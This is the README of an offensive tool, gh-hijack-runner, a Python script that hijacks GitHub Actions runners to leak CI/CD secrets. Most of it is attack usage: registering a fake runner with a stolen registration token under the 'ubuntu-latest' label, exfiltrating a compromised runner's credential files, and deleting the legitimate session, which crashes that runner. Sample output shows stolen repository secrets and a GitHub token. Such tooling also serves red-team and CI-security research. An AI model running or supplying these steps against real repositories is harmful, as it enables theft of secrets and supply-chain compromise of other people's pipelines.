 # gh-hijack-runner

A python script to create a fake GitHub runner and hijack pipeline jobs to leak CI/CD secrets.

## Exploitation

If you can obtain a registration token or achieve remote code execution on a self-hosted GitHub runner, you can either create or take over a GitHub runner. This will enable you to access all the secrets passed to that runner.

Using a registration token, you can register a runner labeled `ubuntu-latest`, gaining access to jobs originally intended for GitHub-provisioned runners. This allows you to compromise any workflow using this method.

```shell
$ gh-hijack-runner.py --registration-token AOTAA3QWE1A5QB6JFECOKQDGEVOVC --url https://github.com/syncicd/CICD --labels ubuntu-latest
[+] Session ID: b66b76a8-e7db-4a14-a2ea-207b1c8cb94d
[+] AES key: BTIk+FT2hRb[...]HN1kkg==
[+] New Job: init (messageId=2)
- REPO_SECRET: repo secret
- SUPER_SECRET: super secret password
- system.github.token: ghs_RqDY21GqZ0OYvM8ImVpAB0B9o7TBQR4Dq2HC
```

## Install

```sh
$ pip install -r requirements.txt 
```

## Usage

### From a registration token

If you manage to get a registration token to register a self-hosted runner for a repo or an organization you can register the fake GitHub runner with this command:

```shell
$ gh-hijack-runner.py --registration-token AOTAA3QWE1A5QB6JFECOKQDGEVOVC --url https://github.com/syncicd/CICD --labels ubuntu-latest
```

This can be an organization or repository registration token.

### From credentials of an existing GitHub runner

With arbitrary code execution on a self-hosted runner, you need to exfiltrate three files to assume the identity of the compromised runner:
```shell
root@9f8f6f1fdfa6:/actions-runner# pwd
/actions-runner
root@9f8f6f1fdfa6:/actions-runner# ll
-rw-r--r-- 1 root   root     266 Apr 21 12:27 .credentials
-rw------- 1 root   root    1667 Apr 21 12:27 .credentials_rsaparams
-rw-r--r-- 1 root   root     325 Apr 21 12:27 .runner
[...]
```

To fetch jobs, the runner will establish a session with GitHub. Each runner can only maintain one session. To create a new session, you need to delete the current session established by the legitimate runner. The session ID can be found here:
```shell
root@9f8f6f1fdfa6:/actions-runner# cat _diag/* | grep -i session
[...]
[2024-04-21 18:03:46Z INFO MessageListener] Message '5' received from session 'aab007e0-eedd-4c1b-96b4-a7c2c128c31a'.
```

**/!\\ Deleting the current session will crash the legitimate runner /!\\**

Then, you can delete the current session:
```sh
$ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json --delete-session-id aab007e0-eedd-4c1b-96b4-a7c2c128c31a
[+] Session aab007e0-eedd-4c1b-96b4-a7c2c128c31a deleted.
```

Finally you can hijack this runner:
```sh
$ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json                                                         
[+] Session ID: 3c88c6f7-5764-4121-b9bf-2536ee2539b7
[+] AES key: eLN3rhf3D[...]UHewLw==
[+] New Job: init (messageId=2)
- REPO_SECRET: repo secret
- SUPER_SECRET: super secret password
- system.github.token: ghs_RqDY23GqZ0OYvM8ImVpAB0B9o7TBQR4Dq2HC
```

Note that for ephemeral self-hosted runner this won't work.

### Help

```sh
$ gh-hijack-runner.py --help
Hijack GitHub runners                

Usage:
    gh-hijack-runner.py [options] --registration-token <token> --url <url> [--labels <labels> --ephemeral --rsa-params <rsa> --credentials <credentials> --runner <runner>]
    gh-hijack-runner.py [options] --rsa-params <rsa> --credentials <credentials> --runner <runner> [(--session-id <session> --aes-key <key>)]
    gh-hijack-runner.py [options] --rsa-params <rsa> --credentials <credentials> --runner <runner> --delete-session-id <session>
    

Options:
    -h --help                               Show this screen.
    --version                               Show version.
    -v, --verbose                           Verbose mode
    --output <folder>                       Save data to output file
    --runer-name <name>                     Runner name
    --runner-group <name>                   Runner group name
    --last-Message-id <id>                  Last message ID

Args:
    --registration-token <token>            Token used to register a runner
    --url <url>                             Full repository or org URL
    --rsa-params <rsa>                      Path to .credentials_rsaparams file
    --credentials <credentials>             Path to .credentials file
    --runner <runner>                       Path to .runner file
    --session-id <session>                  Already running session id
    --aes-key <key>                         Base64 encoded AES key associated with a session id
    --labels <labels>                       Labels used for registration (ubuntu-latest,customrunner)
    --ephemeral                             Create ephemeral runner
    --delete-session-id <session>           Delete session. Warning: It will crash the related GitHub runner
    

Examples:
    $ gh-hijack-runner.py --registration-token AOTAA3TOI7SACAVKBDWEQN3F5IEO2 --url https://github.com/org/repo
    $ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json

Author: @hugow

```

## Credits

- [@karimpwnz](https://twitter.com/karimpwnz) for the [crypto](https://karimrahal.com/2023/01/05/github-actions-leaking-secrets/)
- [@0xn3va](https://twitter.com/0xn3va) for the [session deletion](https://0xn3va.gitbook.io/cheat-sheets/ci-cd/github/actions#misuse-of-self-hosted-runners) part
- [@frichette_n](https://twitter.com/frichette_n) for the [original idea](https://github.com/Frichetten/gitlab-runner-research) on GitLab
